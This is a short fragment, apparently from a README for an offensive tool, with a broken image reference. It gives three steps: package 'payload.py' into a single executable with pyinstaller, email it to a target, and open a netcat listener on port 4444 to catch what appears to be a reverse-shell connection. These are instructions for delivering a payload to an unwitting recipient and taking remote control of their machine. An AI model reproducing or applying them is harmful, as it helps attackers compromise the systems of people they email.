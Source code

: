 Target:

````
pyinstaller --onefile payload.py
````

send it to your destination by e-mail
````
nc -lvp 4444
````